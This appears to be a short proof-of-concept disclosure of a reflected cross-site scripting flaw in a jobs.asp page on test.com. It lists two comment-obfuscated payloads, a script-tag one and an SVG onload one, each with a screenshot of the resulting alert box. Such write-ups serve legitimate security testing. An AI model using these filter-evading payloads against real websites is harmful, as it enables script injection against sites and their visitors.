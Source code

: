 **URL:**<br/>[http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>](http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>)

**Payload:**<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`

**Result:**<br/>![](https://i.imgur.com/k1a4A3Q.png)<br/>


**Payload:**<br/>`"/**/></*svg*/><svg/*test*/onload=alert(/xss/)/*111*/>`

**Result:**<br/>![](https://i.imgur.com/aaoIz5m.png)
